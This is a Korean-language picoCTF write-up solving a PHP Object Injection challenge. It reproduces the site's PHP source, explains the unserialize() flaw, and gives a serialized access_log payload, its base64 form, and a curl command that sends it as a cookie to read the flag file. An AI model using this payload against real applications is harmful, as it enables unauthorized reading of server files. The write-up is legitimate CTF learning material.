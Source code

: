 ```yaml
---
tags:
  - picoCTF
tech: PHP Object Injection
---
```



# Walk-Through

문제 링크로 접속하면 username과 password 입력 박스가 보인다. 입력 박스를 통해 기본적으로 시도해볼 수 있는 SQL Injection 을 해봤지만 성공하진 않는다.

문제 풀이에 대한 힌트를 얻기 위해 사이트 내부로 돌아다니자. 일단 /robots.txt 를 접속 시도했을때 다음과 같은 내용이 보인다.
```txt
User-agent: *
Disallow: /admin.phps
```

https://www.solvusoft.com/ko/file-extensions/file-extension-PHPS 에 따르면 phps는 PHP Source를 볼 수 있는  파일이라고 되어있다. robots.txt를 통해 admin.phps가 노출된 걸 통해 사이트 내 다른 파일도 phps가 접근 가능한게 아닐까 ?

F12를 눌러 Network 탭을 통해 username & password 입력박스의 경로가 "/index.php" 라는 걸 확인할 수 있다. 이후 index.phps 로 접근하면 소스 파일을 열어볼 수 있다.
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
해당 소스를 흝어보니 로그인에 성공한 경우 authentication.php를 호출하는걸로 보아 이 파일도 phps로 접근하면 소스를 읽어볼 수 있을 듯 하다.
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
authentication.phps 에서 또한 cookie.php 파일을 확인할 수 있다. cookie.phps로 접속해서 소스를 확인하자.
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

cookie.phps를 통해 cookie에 login이라는 key를 통해 무언가 시도해볼 수 있는 것으로 보인다.

# PHP Object Injection

PHP Object injection은 unserialize() 함수에 사용자가 입력한 값을 전달되기 전에 제대로 삭제되지 않은 경우 발생한다고 한다.

PHP는 객체 직렬화를 허용하므로 공격자가 임시로 직렬화된 문자열을 취약한 unserializer() 호출에 전달하여 임의의 PHP 객체를 주입할 수 있다.

이 문제에서는 authentication.php에 정의된 "access_log"의 log_file 변수에 문제에서 힌트로 준 플래그 파일의 경로를 가리키게 해보자.



# Payload

cookie의 login이라는 key에 입력할 value를 다음과 같이 입력하자.
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
위 값이 의미하는 바는 각각 다음과 같다.
```
Object:Object Name Length:"Class Name":Object Size:{s}
```
O : Object
10 : Object Name Length
"access_log" : Class Name
1 : Object Size (입력값)
s : String
8 : String Length
log_file : String Name
s : String
7 : String Legnth
"../flag" : String Name


위 값을 base64로 encode 하며 다음과 같은 값이 나온다.
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
브라우저의 쿠키 편집 도구를 이용해서 시도할 수도 있겠으나 단순히 curl을 이용해보자.
``` shell
╰─$ curl -v --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:8404/authentication.php
```
위 curl 명령의 결과로 flag 획득이 가능하다.